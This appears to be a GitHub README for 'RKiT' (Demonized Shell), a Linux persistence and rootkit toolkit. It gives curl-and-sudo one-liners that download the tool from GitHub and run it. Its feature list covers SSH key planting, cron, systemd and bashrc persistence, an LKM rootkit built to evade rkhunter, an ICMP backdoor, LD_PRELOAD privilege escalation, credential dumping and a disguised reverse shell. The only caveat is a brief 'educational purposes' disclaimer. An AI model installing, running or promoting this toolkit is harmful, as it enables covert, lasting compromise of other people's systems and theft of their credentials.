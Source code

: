 <h1 align="center">「😈」About RKiT </h1>

<p align="center"><img src="carbon.png"></p>

Demonized Shell is an Advanced Tool for persistence in linux.

### Install

```
git clone https://github.com/EmilioHulbert/RKiT.git
cd RKiT
chmod +x demonizedshell.sh
sudo ./demonizedshell.sh
```

### One-Liner Install

Download RKiT with all files:
```
curl -L https://github.com/EmilioHulbert/RKiT/archive/main.tar.gz | tar xz && cd RKiT-main && sudo ./demonizedshell.sh
```

Load RKiT statically (without the static-binaries directory):
```
sudo curl -s https://raw.githubusercontent.com/EmilioHulbert/RKiT/main/static/demonizedshell_static.sh -o /tmp/demonizedshell_static.sh && sudo bash /tmp/demonizedshell_static.sh
```

### Demonized Features

* Auto Generate SSH keypair for all users
* APT Persistence 
* Crontab Persistence
* Systemd User level
* Systemd Root Level
* Bashrc Persistence
* Privileged user & SUID bash
* LKM Rootkit Modified, Bypassing rkhunter.
* LKM Rootkit With file encoder. persistent icmp backdoor and others features.
* ICMP Backdoor 
* LD_PRELOAD Setup PrivEsc
* Static Binaries For Process Monitoring, Dump credentials, Enumeration, Trolling and Others Binaries.

### Pending Features

* [X] Process Injection
* [x] install for example: curl github.com/test/test/demonized.sh | bash
* [x] Static RKiT
* [x] ELF/Rootkit Anti-Reversing Technique
* [ ] PAM Backdoor
* [x] rc.local Persistence
* [x] init.d Persistence
* [x] motd Persistence
* [x] Persistence via ACL.
* [x] Reverse shell with a process name of your choice.
* [ ] Udev persistence.

And other types of features that will come in the future.

## Contribution

If you want to contribute and help with the tool, please contact me on twitter: @videquod

## Note

> We are not responsible for any damage caused by this tool, use the tool intelligently and for educational purposes only.
